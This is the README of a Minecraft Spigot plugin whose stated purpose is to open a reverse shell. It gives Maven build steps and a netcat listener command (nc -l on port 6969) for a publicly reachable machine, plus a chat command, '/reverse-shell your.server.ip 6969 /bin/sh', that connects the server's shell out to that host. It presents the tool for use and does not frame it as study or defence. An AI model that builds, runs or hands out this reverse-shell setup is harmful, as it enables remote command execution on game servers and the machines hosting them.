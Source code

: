 # shell-plugin

a reverse shell spigot plugin.

### requirements

- a minecraft server
- maven and openjdk >=18

You can now build the jar.

```shell
cd ./reverse-shell
mvn package
```

You can find the plugin jar at `./reverse-shell/target/hut-1.0.0.jar`.

Once you have installed the plugin, create a netcat server on a **publicly-accessible** linux machine.

```
nc -l 0.0.0.0 6969
```

Simply enter `/reverse-shell your.server.ip 6969 /bin/sh` in the minecraft chat and it will attempt to create a reverse shell.
Then you can type commands like `ls` into the netcat server prompt.
